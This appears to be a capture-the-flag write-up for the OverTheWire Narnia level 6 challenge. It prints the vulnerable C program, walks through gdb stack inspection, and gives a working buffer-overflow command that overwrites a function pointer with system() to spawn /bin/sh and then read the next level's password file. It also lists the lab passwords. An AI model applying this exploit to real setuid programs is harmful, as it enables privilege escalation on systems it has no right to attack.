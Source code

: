 # Level 6 → Level 7

## Solution
```
ssh narnia6@narnia.labs.overthewire.org -p 2226
```
```
BAV0SUV0iM
```
```
cd /narnia ; ls -al
```
```
./narnia6
```

![](0.png)

![](1.png)

Let's look at the code:

```
cat narnia6.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
                memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
                memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
                exit(-1);
        setreuid(geteuid(),geteuid());
    fp(b1);

        exit(1);
}
```

`fp` (short for function pointer) is a variable that contains an address to the `puts` function. That means `fp` can be used to access `puts`. Can `fp` be changed? At first glance no, because it seems that it will appear at the top of the stack (and then there is nothing to overwrite despite the use of `strcpy` later)

However, checking the stack after copying the strings `b1` and `b2` (break point after the second `strcpy`)shows an interesting phenomenon, in which the order of the variables is not as I had anticipated:

```
gdb ./narnia6
```
```
b *0x8049sfa
```

![](2.png)

```
r aaaaaaa bbbbbbb
```
```
x/40wx $sp
```

![](3.png)

* Red - `b2`
* Green - `b1`
* Yellow - `fb`
* Blue - `i`

Is it possible to overwrite `fb` with `b1` to be the `system` function, then overwrite `b1` with `b2` to contain "/bin/sh"?
If so, then we have changed `fb(b1)` from `puts(string)` to `system("/bin/sh")`.

Let's check what the address of the system function is:

```
p system
```

![](4.png)

```
exit
```
```
./narnia6 $(perl -e 'print "aaaaaaaa\x70\x81\xc4\xf7"') $(perl -e 'print "bbbbbbbb/bin/sh\x00"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia7
```

![](5.png)

## Password for the next level:
```
YY4F9UaB60
```
